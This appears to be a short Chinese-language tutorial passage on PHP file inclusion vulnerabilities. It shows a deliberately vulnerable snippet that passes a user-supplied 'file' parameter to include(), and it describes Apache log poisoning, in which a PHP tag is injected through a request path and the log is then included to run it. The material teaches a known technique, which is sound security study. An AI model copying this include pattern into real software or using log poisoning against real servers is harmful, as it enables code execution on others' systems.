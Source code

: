 ![](img/文件包含漏洞/1.png)

修改代码为用户可控文件名，如下：
```php
<?php
$test = $_GET['file'];
include($test);
```

![](img/文件包含漏洞/2.png)


**基于apache日志的文件包含--较难实现，为参考思路**

先访问错误的网页让apache服务器记住

```
 /index.php/<?php phpinfo();?>
```
此时包含这个日志文件，让代码执行

![](img/文件包含漏洞/3.png)
